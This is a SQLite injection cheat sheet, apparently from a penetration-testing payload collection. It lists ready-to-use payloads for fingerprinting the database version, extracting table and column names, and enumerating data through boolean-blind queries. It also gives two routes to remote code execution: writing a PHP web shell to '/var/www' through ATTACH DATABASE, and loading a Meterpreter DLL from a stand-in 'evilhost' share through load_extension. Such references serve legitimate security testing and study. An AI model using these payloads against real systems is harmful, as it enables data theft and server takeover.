 # SQLite Injection

## SQLite version
```
select sqlite_version();
```

## Integer/String based - Extract table name
```
SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
```
Use limit X+1 offset X, to extract all tables.

## Integer/String based - Extract column name
```
SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='table_name'
```

For a clean output
```
SELECT replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(substr((substr(sql,instr(sql,'(')%2b1)),instr((substr(sql,instr(sql,'(')%2b1)),'')),"TEXT",''),"INTEGER",''),"AUTOINCREMENT",''),"PRIMARY KEY",''),"UNIQUE",''),"NUMERIC",''),"REAL",''),"BLOB",''),"NOT NULL",''),",",'~~') FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='table_name'
```

## Boolean - Count number of tables
```
and (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' ) < number_of_table
```

## Boolean - Enumerating table name
```
and (SELECT length(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name not like 'sqlite_%' limit 1 offset 0)=table_name_length_number
```

## Boolean - Extract info
```
and (SELECT hex(substr(tbl_name,1,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) > hex('some_char')
```

## Remote Command Execution using SQLite command - Attach Database
```
ATTACH DATABASE '/var/www/lol.php' AS lol;
CREATE TABLE lol.pwn (dataz text);
INSERT INTO lol.pwn (dataz) VALUES ('<?system($_GET['cmd']); ?>');--
```

## Remote Command Execution using SQLite command - Load_extension
```
UNION SELECT 1,load_extension('\\evilhost\evilshare\meterpreter.dll','DllMain');--
```
Note: By default this component is disabled

## Thanks to
[Injecting SQLite database based application - Manish Kishan Tanwar](https://www.exploit-db.com/docs/41397.pdf)

